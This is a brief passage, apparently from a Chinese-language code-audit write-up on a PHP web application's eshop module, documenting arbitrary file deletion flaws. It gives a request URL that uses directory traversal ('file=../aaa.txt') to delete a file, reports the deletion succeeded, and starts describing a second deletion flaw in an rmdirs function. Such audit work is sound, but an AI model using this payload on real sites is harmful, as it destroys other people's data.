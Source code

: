`/index.php?mod=mobile&do=util&act=uploader&m=eshop&op=remove&file=../aaa.txt`

![29.png](assets/1704791760-7fa92ff76548cc202ab2b2d6d2309e43.png)

![30.png](assets/1704791760-a5d5d7635ea65c9d1b1fc41562bf6c50.png)

成功删除

#### 任意文件删除二

common.inc.php中的rmdirs函数同样调用了unlink函数，并且发现还调用了rmdir函数  